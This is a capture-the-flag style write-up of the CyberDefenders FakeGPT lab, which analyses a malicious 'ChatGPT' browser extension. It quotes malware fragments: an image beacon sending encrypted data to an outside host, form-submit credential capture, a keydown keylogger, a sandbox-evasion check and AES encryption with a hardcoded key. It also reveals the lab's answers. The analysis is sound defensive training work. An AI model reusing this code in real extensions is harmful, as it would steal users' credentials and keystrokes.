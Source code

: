 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
  - javascript
  - cyberchef
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes solving FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about one particular encoding, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Base64
  </div>
</details>

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    www.facebook.com
  </div>
</details>

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
function sendToServer(encryptedData) {
  var img = new Image();
  img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
  document.body.appendChild(img);
}
```

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    &#60;img>
  </div>
</details>

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
  alert("Virtual environment detected. Extension will disable itself.");
  chrome.runtime.onMessage.addListener(() => { return false; });
}
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    navigator.plugins.length === 0
  </div>
</details>

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
document.addEventListener('submit', function(event) {
  let form = event.target;
  let formData = new FormData(form);
  let username = formData.get('username') || formData.get('email');
  let password = formData.get('password');
  ...
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    submit
  </div>
</details>

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
document.addEventListener('keydown', function(event) {
  var key = event.key;
  exfiltrateData('keystroke', key);
});
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    keydown
  </div>
</details>

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Mo.Elshaheedy.com
  </div>
</details>

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" maybe in JS is not needed but it is for the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    exfiltrateCredentials(username, password);
  </div>
</details>

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    AES
  </div>
</details>

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
"permissions": [
  "tabs",
  "http://*/*",
  "https://*/*",
  "storage",
  "webRequest",
  "webRequestBlocking",
  "cookies"
  ]
```

And one that seems related to the question is the value which is a session-related data and authentication information, so this is the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    cookies
  </div>
</details>

